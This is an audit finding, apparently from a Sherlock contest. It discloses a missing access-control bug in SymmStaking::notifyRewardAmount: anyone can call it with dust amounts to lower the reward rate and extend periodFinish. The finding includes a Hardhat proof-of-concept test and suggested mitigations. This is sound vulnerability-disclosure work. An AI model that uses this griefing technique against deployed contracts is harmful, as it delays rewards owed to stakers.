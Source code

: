 Little Sky Toad

High

# Any User Can Manipulate Reward Rate and Extend Distribution Period, Delaying Fair and Timely Reward Distribution for Stakers

### Summary

Lack of access control on `SymmStaking::notifyRewardAmount` allows any user to manipulate the reward per second (`rewardState.rate`) and extend the reward distribution end period (`rewardState.periodFinish`) by passing in dust amounts of a whitelisted reward token. If the contract is still in an active distribution cycle (i.e., the previous distribution has not yet ended), it will recalculate `rewardState.rate` using the following formula:

```solidity
uint256 remaining = state.periodFinish - block.timestamp;
uint256 leftover = remaining * state.rate;
state.rate = (amount + leftover) / state.duration;
```
Additionally, it extends ``periodFinish`` by 1 week:

```solidity
// state.duration = 1 week
state.periodFinish = block.timestamp + state.duration;
```

Since there are no restrictions on calling this function, anyone can invoke it an unlimited number of times with dust amounts of a whitelisted reward token, artificially extending the vesting period while reducing per-second rewards, significantly delaying fair reward distribution for stakers.






### Root Cause
https://github.com/sherlock-audit/2025-03-symm-io-stacking/blob/main/token/contracts/staking/SymmStaking.sol#L275 

`SymmStaking::notifyRewardAmount` lacks access control and does not enforce a minimum reward amount threshold either, allowing any user to repeatedly call it with dust amounts, manipulating `rewardState.rate` and continuously extending `rewardState.periodFinish`



### Internal Pre-conditions

1. Admin calls ``SymmStaking::configureRewardToken`` to whitelist a token as a reward token.
2. Any user calls ``SymmStaking::notifyRewardAmount`` with a dust amount of any whitelisted reward token while an active distribution cycle is ongoing.

### External Pre-conditions

None, vulnerability exists entirely within the `SymmStaking` contract and does not rely on any external protocol interactions.








### Attack Path

1. Admin calls `SymmStaking::configureRewardToken` to whitelist a token as a reward token.  
2. Any user calls `SymmStaking::notifyRewardAmount` with a dust amount of any whitelisted reward token while an active distribution cycle is ongoing.
3. `SymmStaking::_addRewardsForToken` recalculates `rewardState.rate`, incorporating the dust amount and remaining rewards, reducing the per-second reward rate.  
4. `rewardState.periodFinish` is extended by one week.  
5. Attacker can repeat this process continuously, keeping rewards artificially low and delaying fair distribution for stakers.

### Impact

Stakers experience prolonged reward distribution and reduced per-second rewards (`rewardState.rate`), as any user can repeatedly extend `rewardState.periodFinish` and manipulate `rewardState.rate` by calling `SymmStaking::notifyRewardAmount` with dust amounts. This prevents fair and timely reward allocation, forcing stakers to wait longer for their full rewards. The attacker gains no direct profit but can continuously grief the protocol and stakers, disrupting its intended functionality.


### PoC

Add the following test case in ``symmStaking.behavior.ts`` under the ``Notify`` describe block

```typescript
		it("should reduce the reward rate and prolong distribution with a dust amount", async function () {
			// Transfer 1000 USDT tokens to Bob (user2)
			await usdtToken.connect(admin).transfer(user2.address, 1000_000000)

			// Admin adds USDT as a reward token
			await symmStaking.connect(admin).configureRewardToken(await usdtToken.getAddress(), true)

			// Admin approves and notifies the reward
			const rewardAmountUSDT = 604800_000000
			await usdtToken.connect(admin).approve(await symmStaking.getAddress(), rewardAmountUSDT)
			await expect(symmStaking.connect(admin).notifyRewardAmount([await usdtToken.getAddress()], [rewardAmountUSDT])).to.be.ok

			// Alice (user1) stakes 100 SYMM tokens
			const depositAmount = e(100)
			await stakingToken.connect(user1).approve(await symmStaking.getAddress(), depositAmount)
			await symmStaking.connect(user1).deposit(depositAmount, user1.address)

			// Fast forward 1 day
			await time.increase(86400)

			let rewardStateBefore = await symmStaking.rewardState(await usdtToken.getAddress())

			// Reward rate = 1 USDT token per second
			expect(rewardStateBefore.rate).to.be.equal(1_000000)

			console.log("Reward per second BEFORE dust amount ->", rewardStateBefore.rate)
			console.log("Period finish date BEFORE dust amount ->", rewardStateBefore.periodFinish)

			const dustAmount = 10

			// Bob approves and notifies the reward with a dust amount
			await usdtToken.connect(user2).approve(await symmStaking.getAddress(), dustAmount)
			await expect(symmStaking.connect(user2).notifyRewardAmount([await usdtToken.getAddress()], [dustAmount])).to.be.ok

			await symmStaking.earned(user1.address, await usdtToken.getAddress())

			let rewardStateAfter = await symmStaking.rewardState(await usdtToken.getAddress())

			// @audit Reward per second decreases due to the dust amount
			console.log("Reward per second AFTER dust amount ->", rewardStateAfter.rate)

			// @audit Period finish is prolonged
			console.log("Period finish date AFTER dust amount ->", rewardStateAfter.periodFinish)
		})
```
Attaching a screenshot of the test run showing a decrease in `rate` (reward per second) and an extended `periodFinish` due to a dust amount of `10 wei`.

<img width="655" alt="Image" src="https://sherlock-files.ams3.digitaloceanspaces.com/gh-images/9d3fa68c-c0e3-4586-a78e-995a2aa06563" />

### Mitigation

1. Restrict `SymmStaking::notifyRewardAmount` by adding an access control modifier (Recommended) 
2. Or, enforce a minimum reward distribution threshold to prevent manipulation with dust amounts.







